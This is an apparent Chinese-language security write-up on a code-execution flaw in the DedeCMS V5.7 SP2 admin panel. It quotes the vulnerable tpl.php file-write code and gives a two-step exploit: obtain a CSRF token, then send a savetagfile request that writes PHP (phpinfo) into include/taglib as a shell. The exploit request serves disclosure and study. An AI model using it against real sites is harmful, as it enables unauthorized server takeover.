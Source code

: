 ##[DedeCMS V5.7 SP2后台存在代码执行漏洞](http://www.freebuf.com/vuls/164035.html)


[下载](http://www.dedecms.com/products/dedecms/downloads/)

## Affected Version 

DedeCMS V5.7 SP2

## Code analysis

#### 漏洞详情

默认后台地址 `/dede/`，文件`dede/tpl.php`中的251到281行。


	csrf_check();
		#filename和前面正则的匹配情况
	    if(!preg_match("#^[a-z0-9_-]{1,}\.lib\.php$#i", $filename))
	    {
	        ShowMsg('文件名不合法，不允许进行操作！', '-1');
	        exit();
	    }
	    require_once(DEDEINC.'/oxwindow.class.php');
		#搜索filename中匹配`\.lib\.php$#i`的部分，以空格代替
	    $tagname = preg_replace("#\.lib\.php$#i", "", $filename);
		#去掉反斜号
	    $content = stripslashes($content);
		#拼接文件名
	    $truefile = DEDEINC.'/taglib/'.$filename;
		#写入内容
	    $fp = fopen($truefile, 'w');
	    fwrite($fp, $content);
	    fclose($fp);

replace处理之后赋值给变量 $tagname 。但是写入文件的时候并没有用到$tagname 。
那为什么有这个$tagname，拼接文件名的时候，应该是拼接`tagname`

利用

	1.由于dedecms全局变量注册的特性，所以这里的content变量和filename变量可控。

	2.可以看到将content直接写入到文件中导致可以getshell。但是这里的文件名经过正则表达式，所以必须要.lib.php结尾。

	3.这里还有一个csrf_check()函数，即请求中必须要带token参数。


#### 漏洞利用

1. 首先获取`token`。访问域名 + `/dede/tpl.php?action=upload`

	view-source:http://127.0.0.1:8000/DedeCMS/uploads/dede/tpl.php?action=upload

	d170f6bed3360da62d909d28a072c312



![](http://opmi2ydgh.bkt.clouddn.com//18-3-8/56295937.jpg)

2.然后访问 

	域名 + /dede/tpl.php?filename=secnote.lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=[你的token值



![](http://opmi2ydgh.bkt.clouddn.com//18-3-8/16267803.jpg)

shell 地址

	域名 + /include/taglib/secnote.lib.php

![](http://opmi2ydgh.bkt.clouddn.com//18-3-8/81830140.jpg)


## References

[DedeCMS V5.7 SP2后台存在代码执行漏洞](http://www.freebuf.com/vuls/164035.html)